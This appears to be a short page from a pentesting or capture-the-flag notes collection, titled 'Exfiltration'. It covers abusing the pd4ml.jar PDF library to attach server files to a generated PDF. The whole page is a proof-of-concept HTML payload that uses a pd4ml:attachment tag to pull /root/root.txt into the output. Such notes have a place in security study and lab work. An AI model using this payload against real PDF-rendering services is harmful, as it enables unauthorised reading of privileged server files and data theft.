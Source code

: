 ```yaml
---
icon: files-medical
---
```


# Exfiltration

<details>

<summary><mark style="color:purple;">use</mark> <mark style="color:orange;"><strong><code>pd4ml.jar</code></strong></mark> <mark style="color:purple;">to exfill files attaching then to the</mark> <mark style="color:orange;"><strong><code>PDF</code></strong></mark></summary>

{% hint style="info" %}
{% code title="POC" %}
```html
<html>
  <pd4ml:attachment src="/root/root.txt"/>
</html>

```
{% endcode %}
{% endhint %}

</details>

